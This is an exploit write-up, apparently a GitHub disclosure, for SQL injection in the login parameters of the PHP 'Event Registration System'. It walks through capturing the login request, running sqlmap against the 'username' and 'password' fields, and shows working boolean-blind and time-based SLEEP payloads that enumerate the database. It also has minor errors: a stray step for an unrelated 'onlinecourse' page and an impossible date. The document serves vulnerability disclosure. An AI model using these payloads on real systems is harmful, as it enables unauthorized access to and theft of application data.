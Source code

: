 # Event Registration System - SQL Injection - 1
+ **Exploit Title:** Event Registration System - SQL Injection - 1
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/14884/event-registration-system-qr-code-php-free-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=14884&title=Event+Registration+System+with+QR+Code+in+PHP+Free+Source+Code
+ **Version:** 1.0(2024)
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Event Registration System allows SQL Injection via the 'username' & 'password' parameters at "http://localhost/event/portal.php" or "http://localhost/event/admin/login.php"
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/event/portal.php" or "http://localhost/event/admin/login.php"
+ Then go to http://localhost/onlinecourse/pincode-verification.php
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /event/classes/Login.php?f=rlogin HTTP/1.1
Host: localhost
Content-Length: 27
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/event/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=cc12r4c7k38a4endfa1btuk5he
Connection: close

username=test&password=test
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 5457=5457-- oeCl&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 3350 FROM (SELECT(SLEEP(5)))YATt)-- HCBw&password=test
---
[18:13:19] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:13:19] [INFO] fetching current database           
current database: 'event_db'

```
+ current database: `event_db`

![Ekran görüntüsü 2024-05-18 141313](https://github.com/BurakSevben/CVEs/assets/117217689/087fffb2-8767-462a-b05c-e09b95954d3b)


## Password 
+ Use sqlmap to exploit. In sqlmap, use 'password' parameter to dump the database.
```
sqlmap -r r.txt -p password --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test&password=test') OR NOT 9672=9672-- ZitY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test&password=test') AND (SELECT 5164 FROM (SELECT(SLEEP(5)))xkcG)-- nIna
---
[18:14:58] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:14:58] [INFO] fetching current database
current database: 'event_db'
```
+ current database: `event_db`

![Ekran görüntüsü 2024-05-18 143806](https://github.com/BurakSevben/CVEs/assets/117217689/db7f440c-90a0-4bcf-9327-55d0d672a930)


